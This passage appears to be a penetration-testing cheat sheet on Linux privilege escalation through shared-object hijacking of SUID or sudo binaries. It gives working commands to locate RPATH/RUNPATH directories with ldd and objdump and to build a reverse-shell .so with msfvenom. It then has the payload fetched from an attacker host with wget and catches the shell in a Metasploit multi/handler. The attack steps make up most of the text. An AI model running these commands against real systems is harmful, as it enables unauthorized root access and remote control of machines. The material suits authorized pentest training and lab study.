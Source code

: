 ```
**Using post enumeration information we can also search for kernel exploits, service exploits and also check metasploit modules**


**We can also check for Buffer Overflow, PATH hijacking (strace/ltrace, ldd, strings to see if the binary is executing something more, ex: ls, without /bin), check strace Shared Object (.so) injection**


To know about Static Libraries(a) and Dynamically Linked Shared Object Libraries(.so) [click here](http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html)

**Absuing Shared object libraries**

**binaries that has SUID or SUDO permissions**


To see the shared objects being loaded by the /usr/local/bin/<program> we will use 'ldd'
```
$ ldd /usr/local/bin/program_name
```
To see  the Runpath and Rpath options in binary we will use 'objdump'
```
$ objdump /usr/local/bin/program_name | grep RPATH

$ objdump /usr/local/bin/program_name | grep RUNPATH
```
After this we will get RPATH and RUNPATH pointing directories

Assuming
```
/tmp/program/libs
```

In that directory we can place our malicious hacker.so(shared object file) file.

**Hijacking shared object**

Create .so file using msfvenom
```
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<attacker IP> \
LPORT=<attacker LPORT> -f elf-so -o program_name.so
```
Start python server in attacker machine where our malicious hacker.so file is located
```
python -m SimpleHTTPServer 80
```
On target system
```
cd /tmp/program/libs && wget http://AtackerIP/program_name.so
```


Start multihandler in attacker system
```
use exploit/multi/handler
exploit(multi/handler) > set payload linux/x64/shell_reverse_tcp
exploit(multi/handler) > set LHOST <attackerIp>
exploit(multi/handler) > set LPORT <attackerLport>
exploit(multi/handler) > exploit -j
Exploit running as background job 0.
```
**And execute vulnerabile binary in target system and you will get a meterpreter shell in your attacker system**

Like this we can also exploit wildcard injection if its a binary like /usr/bin/program_name /var/*
```
